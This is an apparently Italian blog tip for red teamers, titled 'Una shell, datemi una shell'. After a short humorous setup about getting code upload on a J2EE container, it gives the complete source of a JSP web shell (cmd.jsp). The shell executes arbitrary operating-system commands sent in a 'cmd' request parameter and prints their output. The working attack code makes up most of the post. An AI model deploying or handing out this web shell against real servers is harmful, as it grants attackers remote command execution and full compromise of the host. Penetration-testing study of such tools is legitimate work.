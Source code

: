 ```yaml
---
layout: tip
title: "Una shell, datemi una shell"
tags: [java, jsp, shell, web shell, shell, attacker, redteam]
level: basic
image:
  feature:
  credit:
  creditlink:
comments: true
share: true
order: 1
---
```


Sei lì e nel buio della sala riunioni del tuo cliente, di fronte al tuo caffé
da 0,34€ erogato da un dispenser mai pulito, hai trovato il modo di fare upload
di codice Java su un J2EE container.

Che sia grazie ad un metodo PUT, che sia perché l'applicazione web ha è bucata
come il groviera, vuoi una shell da buttare su al volo, qualcosa di veramente
_quick and dirty_.

{% highlight java %}
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
{% endhighlight %}
